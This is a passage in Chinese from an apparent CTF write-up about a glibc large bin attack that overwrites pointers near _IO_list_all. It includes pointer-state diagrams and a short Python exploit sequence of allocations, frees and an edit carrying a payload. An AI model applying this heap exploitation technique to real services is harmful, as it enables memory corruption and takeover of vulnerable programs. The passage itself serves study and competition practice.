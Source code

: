 如上所示，此时 `_IO_list_all - 0x20`.`fd_nextsize` 不受影响. 因此需要引入第三个堆: chunk_3，且该堆大小必须小于 chunk_1.  
当 chunk_3 处于 unsorted bin 且马上分配至 large bin 时，其 `fd_nextsize` `bk_nextsize` 将会重指向自 chunk_1，且 `_IO_list_all - 0x20` 也会重整. 如下所示

```
chunk_1
fd_nextsize: 	0x0
bk_nextsize:	chunk_3

chunk_3
fd_nextsize: 	chunk_1
bk_nextsize:	_IO_list_all - 0x20

_IO_list_all - 0x20
fd_nextsize: 	chunk_3
bk_nextsize:	0x0
```

而后需要 alloc 一个大小为 chunk_3 的空间，这样就能够抽走 large bin 中的 chunk_3，使得 `_IO_list_all - 0x20`.`fd_nextsize` 为 chunk_1，如下所示

```
chunk_1
fd_nextsize: 	0x0
bk_nextsize:	_IO_list_all - 0x20

_IO_list_all - 0x20
fd_nextsize: 	chunk_1
bk_nextsize:	0x0
```

根据以上原理，写出代码

```py

add_com(0x548)	# chunk_1
add_com(0x548)	# chunk_2
add_com(0x538)	# chunk_3
del_com(1)		# free chunk_1 to unsorted bin
add_com(0x558)	# free chunk_1 to large bin
del_com(3)		# free chunk_3 to unsorted bin

edit_com(1, payload[16:])

add_com(0x568)	# free chunk_3 to large bin
add_com(0x538)	# alloc chunk_3

```

运行后如下所示

![qwb](/image/qwbs8/0.png)  
